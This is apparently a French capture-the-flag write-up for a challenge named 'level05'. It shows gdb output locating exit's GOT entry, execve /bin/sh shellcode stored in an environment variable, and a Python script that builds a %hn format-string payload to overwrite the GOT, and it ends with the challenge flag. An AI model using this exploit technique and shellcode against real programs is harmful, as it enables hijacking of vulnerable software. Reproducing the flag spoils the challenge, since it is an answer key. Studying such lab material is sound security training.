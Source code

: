 1. On a un cas d'`Uncontrolled format string`, on va override la GOT pour pointer sur notre shellcode au lieu de la fonction exit.

   ```
   (gdb) b main
   (gdb) r

   (gdb) info functions exit
     0x08048370  exit

   (gdb) disas 0x08048370
     0x08048370 <+0>:	jmp    *0x80497e0

   $ ./level05
   %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
   [...] 25207825 [...]
   # 10e
   ```
2. On va utiliser une variable d'environnement pour stocker le shellcode afin d'eviter son alteration par le `to_lowercase`.
   ```
   export SHELLCODE=`python -c 'print "\x90" * 128 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'`

   gcc -m32 /tmp/addr.c -o /tmp/addr

   /tmp/addr
   0xffffd862
   ```

```
(python -c '''

import struct

exit_1 = struct.pack("I", 0x080497e0)
exit_2 = struct.pack("I", 0x080497e0 + 2)
sc_adr = int(raw_input(''), 16)
t = [0xffff & sc_adr, (0xffff0000 & sc_adr) >> 16]
a1 = min(t)
a2 = max(t)

exp = exit_1 + exit_2

p = lambda x: "%%%sx" % x

ret = exp + p(a1 - len(exp)) + "%1" + str(t.index(a1)) + "$hn" + p(a2 - a1) + "%1" + str(t.index(a2)) + "$hn"

exit(1) if any([i > 64 and i < 91 for i in ret]) else 1

print ret
'''; cat;) | ./level05
```

> Flag: h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
